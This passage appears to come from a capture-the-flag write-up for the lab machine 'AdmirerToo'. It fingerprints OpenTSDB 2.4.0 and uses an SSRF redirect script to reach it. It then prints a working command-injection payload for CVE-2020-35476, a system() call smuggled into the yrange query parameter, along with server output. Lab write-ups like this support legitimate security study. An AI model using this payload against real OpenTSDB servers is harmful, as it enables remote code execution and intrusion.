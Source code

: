 
OpenTSDB

Enumerated OpenTSDB version:

[/api/version](http://opentsdb.net/docs/build/html/api_http/version.html)

```bash
$ sudo python2 redirect.py --port 10099 http://10.10.11.137:4242/api/version
```

```json
{"short_revision":"14ab3ef","repo":"/home/hobbes/OFFICIAL/build","host":"clhbase","version":"2.4.0","full_revision":"14ab3ef8a865816cf920aa69f2e019b7261a7847","repo_status":"MINT","user":"hobbes","branch":"master","timestamp":"1545014415"}
```

### Known vulnerability for OpenTSDB 2.4.0:

[OpenTSDB - A Distributed, Scalable Monitoring System](http://opentsdb.net/)

[Arbitrary Code Execution in net.opentsdb:opentsdb | CVE-2020-35476 | Snyk](https://security.snyk.io/vuln/SNYK-JAVA-NETOPENTSDB-1041751)

Exploited the SSRF to trigger the RCE on port 4242:

![AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%2010.png)

```bash
$ python2 redirect.py --port 10098 "http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
serving at port 10098
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
10.10.11.137 - - [24/Apr/2022 14:43:52] "GET / HTTP/1.0" 301 -
```

![No such name for 'metrics': 'sys.cpu.nice’](../../zzz_res/attachments/AdmirerToo%20240a5f42ba804c368714cbfe2f9e8182%2011.png)

No such name for 'metrics': 'sys.cpu.nice’

Enumerated available metrics trough API:

[OpenTSDB - Get all metrics via http](https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http)
